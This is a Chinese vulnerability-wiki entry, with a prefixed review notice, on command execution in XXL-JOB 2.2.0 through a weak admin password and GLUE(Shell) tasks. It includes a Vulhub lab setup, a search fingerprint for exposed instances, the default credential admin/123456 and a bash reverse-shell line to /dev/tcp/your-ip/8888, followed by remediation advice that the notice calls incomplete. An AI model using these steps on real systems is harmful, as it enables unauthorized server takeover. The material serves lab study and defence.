






## 核对与使用边界

本文已按保存的全文审阅记录进行文字校订；本轮仅静态核对，未运行 PoC、请求目标或逐图验证。

适用条件与版本记录（来源主张，未列为明确更正的部分仍待权威资料核对）：实验2.2.0，主要前提弱admin密码而非全产品RCE

代码与实验材料：完整compose和GUI流程，新增任务/脚本有持久影响

来源证据范围：上游issue2979和公众号来源

- **适用与权限边界（1）**：修复建议不针对主风险；依据：只启executor accessToken/改端口/限制IP，未要求改admin默认密码或保护管理端；已获admin仍能下发合法GLUE。按此限制解释本文结论，版本相同不足以证明所需角色、入口、配置、依赖或可控参数均已满足；原操作和失败记录一并保留。

- **事实待核（2）**：version抽取错误；依据：字段docker-compose up -d。该项尚不能从转载本身确定外部事实；下文相应编号、版本或修复说法只作为来源记录，不能据此判定部署受影响或已修复。明确更正另列于本节。

- **适用与权限边界（3）**：改端口不是授权控制；依据：建议更换默认端口不能代替鉴权、访问限制；任务和脚本需清理。按此限制解释本文结论，版本相同不足以证明所需角色、入口、配置、依赖或可控参数均已满足；原操作和失败记录一并保留。

历史原文标识：下文原技术材料按来源保留；仅本节明确确认的更正替代相应旧说法，标为待核的观察仍不是事实确认。

# XXL-JOB 后台任意命令执行漏洞

> 版本字段校订（2026-10-04）：代码、命令、路径、产品名或章节标记误入版本字段的值已逐字保存到对应 `previous_*` 字段；当前版本字段只记正文明确的来源范围，无范围时记为 unknown。后文对此元数据误填的旧说明描述校订前状态，其余实验条件与待核项仍按原文保留。

## 漏洞描述

XXL-JOB 是一个分布式任务调度平台，其核心设计目标是开发迅速、学习简单、轻量级、易扩展。现已开放源代码并接入多家公司线上产品线，开箱即用。XXL-JOB 分为 admin 和 executor 两端，前者为后台管理页面，后者是任务执行的客户端。

若 XXL-JOB 后台管理页面存在弱口令，攻击者可在 GLUE 模式任务代码中写入攻击代码并推送到执行器执行，从而获取服务器权限。

参考链接：

- https://github.com/xuxueli/xxl-job/issues/2979
- https://mp.weixin.qq.com/s/jzXIVrEl0vbjZxI4xlUm-g

## 漏洞影响

```
XXL-JOB
```

## 网络测绘

```
app="XXL-JOB" || title="任务调度中心" || ("invalid request, HttpMethod not support" && port="9999")
```

## 环境搭建

docker-compose.yml

```
version: '2'
services:
 admin:
   image: vulhub/xxl-job:2.2.0-admin
   depends_on:
    - db
   ports:
    - "8080:8080"
 executor:
   image: vulhub/xxl-job:2.2.0-executor
   depends_on:
    - admin
   ports:
    - "9999:9999"
 db:
   image: mysql:5.7
   environment:
    - MYSQL_ROOT_PASSWORD=root
```

Vulhub 执行如下命令启动 2.2.0 版本的 XXL-JOB：

```
docker-compose up -d
```

环境启动后，访问 `http://your-ip:8080/xxl-job-admin/toLogin` 即可查看到管理端登录页面，访问 `http://your-ip:9999` 可以查看到客户端（executor）。




## 漏洞复现

弱口令 `admin/123456` 登录后台，新增一个 GLUE 模式任务：

```
运行模式 GLUE(Shell)
```




点击 GLUE IDE，编辑脚本：







点击执行一次，探测是否出网：




再次点击 GLUE IDE，编辑脚本反弹 shell：

```plain
#!/bin/bash
bash -i >& /dev/tcp/your-ip/8888 0>&1 
```




## 漏洞修复

1. 开启 XXL-JOB 自带的鉴权组件：官方文档中搜索 “xxl.job.accessToken” ，按照文档说明启用即可。
2. 端口防护：及时更换默认的执行器端口，不建议直接将默认的 9999 端口开放到公网。
3. 端口访问限制：通过配置安全组限制只允许指定 IP 才能访问执行器 9999 端口。


---

> 来源：Threekiii/Vulnerability-Wiki（https://github.com/Threekiii/Vulnerability-Wiki）
